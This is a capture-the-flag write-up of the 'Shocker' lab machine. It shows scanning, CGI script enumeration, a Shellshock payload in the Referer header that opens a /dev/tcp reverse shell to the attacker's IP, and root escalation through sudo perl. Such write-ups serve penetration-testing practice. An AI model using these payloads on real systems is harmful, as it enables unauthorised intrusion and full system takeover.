 ### Shocker

#### Machine IP : 10.10.10.56
Difficulty: Easy

### Scanning

```bash
# Nmap 7.91 scan initiated Tue Jul  6 09:37:03 2021 as: nmap -A -oA nmap/initial 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.088s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 09:37:18 2021 -- 1 IP address (1 host up) scanned in 14.87 seconds
```

- Initial Homepage

![homepage](images/homepage.PNG)

__Running Gobuster__

```bash
$ gobuster dir -u  http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403                                                                                                                                1 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/07/06 09:43:42 Starting gobuster
===============================================================
/cgi-bin/ (Status: 403)
===============================================================
2021/07/06 09:43:51 Finished
===============================================================
````

- Found `/cgi-bin/` 

__Running gobuster on `/cgi-bin/`__

```bash
$ gobuster dir -u  http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403 -x sh,pl,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,pl,py
[+] Timeout:        10s
===============================================================
2021/07/06 09:50:15 Starting gobuster
===============================================================
/user.sh (Status: 200)
===============================================================
2021/07/06 09:50:54 Finished
===============================================================
```

- Found `/user.sh` script

Contents
```bash
$ cat user.sh          
Content-Type: text/plain

Just an uptime test script

 10:04:16 up  9:01,  0 users,  load average: 0.06, 0.03, 0.01
```

GET REQUEST
```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Server response(burpsuite- intercepted server response)
```bash
HTTP/1.1 200 OK
Date: Tue, 06 Jul 2021 14:09:20 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 118
                        # becuase of this blank line following is interpreted as response text and as content type is `x-sh` it is not interpreted correctly- change this to `text/plain`(intercepted browser responses in burp) and observe the browser contents
Content-Type: text/plain

Just an uptime test script

 10:09:20 up  9:06,  0 users,  load average: 0.00, 0.00, 0.00
 ```

 ![browser_response](images/browser_response.PNG)


 - Looking for shellshock using nmap

 ```bash
 $: nmap -p8081 -A -oA nmap/shellshock  --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
> nmap didn't result in identifying the shellshock vulnerability but correctly executes the payloads

 ![nmap_request](images/nmap_request.PNG)

edited the request to following 

 ```http
 GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo; /bin/ls  
Connection: close
Host: localhost:8081
Content-Length: 2
```

> `/bin/ls` is changed from `ls` as it did'nt work

Adding a revers shell

```http
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.16.23/4242 0>&1
Connection: close
Host: localhost:8081
Content-Length: 2
```

- set up the listener on kali and send the request

__Result__

```bash
$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.16.23] from (UNKNOWN) [10.10.10.56] 60780
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```

### Privilege escalation

- running `sudo -l` resulted that we can execute `perl` with root privileges

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

__Elevating privileges through `Perl`__

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e "exec('/bin/bash')"
sudo /usr/bin/perl -e "exec('/bin/bash')"
id
uid=0(root) gid=0(root) groups=0(root)
``` 